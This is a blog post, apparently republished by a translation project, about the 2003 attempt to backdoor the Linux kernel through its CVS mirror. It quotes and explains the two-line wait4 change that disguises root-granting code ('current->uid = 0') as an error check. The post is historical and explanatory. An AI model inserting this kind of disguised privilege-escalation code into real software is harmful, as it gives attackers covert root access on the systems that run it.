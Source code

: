 The Linux Backdoor Attempt of 2003
==================================

Josh [wrote][1] recently about a serious security bug that appeared in Debian Linux back in 2006, and whether it was really a backdoor inserted by the NSA. (He concluded that it probably was not.)

Today I want to write about another [incident][2], in 2003, in which someone tried to backdoor the Linux kernel. This one was definitely an attempt to insert a backdoor. But we don’t know who it was that made the attempt—and we probably never will.

Back in 2003 Linux used a system called BitKeeper to store the master copy of the Linux source code. If a developer wanted to propose a modification to the Linux code, they would submit their proposed change, and it would go through an organized approval process to decide whether the change would be accepted into the master code. Every change to the master code would come with a short explanation, which always included a pointer to the record of its approval.

But some people didn’t like BitKeeper, so a second copy of the source code was kept so that developers could get the code via another code system called CVS. The CVS copy of the code was a direct clone of the primary BitKeeper copy.

But on Nov. 5, 2003, Larry McVoy [noticed][3] that there was a code change in the CVS copy that did not have a pointer to a record of approval. Investigation showed that the change had never been approved and, stranger yet, that this change did not appear in the primary BitKeeper repository at all. Further investigation determined that someone had apparently broken in (electronically) to the CVS server and inserted this change.

What did the change do? This is where it gets really interesting. The change modified the code of a Linux function called wait4, which a program could use to wait for something to happen. Specifically, it added these two lines of code:

	if ((options == (__WCLONE|__WALL)) && (current->uid = 0))
        retval = -EINVAL;
        
[Exercise for readers who know the C programming language: What is unusual about this code? Answer appears below.]

A casual reading by an expert would interpret this as innocuous error-checking code to make wait4 return an error code when wait4 was called in a certain way that was forbidden by the documentation. But a really careful expert reader would notice that, near the end of the first line, it said “= 0” rather than “== 0”. The normal thing to write in code like this is “== 0”, which tests whether the user ID of the currently running code (current->uid) is equal to zero, without modifying the user ID. But what actually appears is “= 0”, which has the effect of setting the user ID to zero.

Setting the user ID to zero is a problem because user ID number zero is the “root” user, which is allowed to do absolutely anything it wants—to access all data, change the behavior of all code, and to compromise entirely the security of all parts of the system. So the effect of this code is to give root privileges to any piece of software that called wait4 in a particular way that is supposed to be invalid. In other words … it’s a classic backdoor.

This is a very clever piece of work. It looks like innocuous error checking, but it’s really a back door. And it was slipped into the code outside the normal approval process, to avoid any possibility that the approval process would notice what was up.

But the attempt didn’t work, because the Linux team was careful enough to notice that that this code was in the CVS repository without having gone through the normal approval process. Score one for Linux.

Could this have been an NSA attack? Maybe. But there were many others who had the skill and motivation to carry out this attack. Unless somebody confesses, or a smoking-gun document turns up, we’ll never know.

---

via: https://freedom-to-tinker.com/blog/felten/the-linux-backdoor-attempt-of-2003/

本文由 [LCTT][] 原创翻译，[Linux中国][] 荣誉推出

译者：[Mr小眼儿][] 校对：[校对者ID][]

[LCTT]:https://github.com/LCTT/TranslateProject
[Linux中国]:http://linux.cn/portal.php
[Mr小眼儿]:http://linux.cn/space/14801
[校对者ID]:http://linux.cn/space/校对者ID

[1]:https://freedom-to-tinker.com/blog/kroll/software-transparency-debian-openssl-bug/
[2]:https://lwn.net/Articles/57135/
[3]:https://lwn.net/Articles/57137/

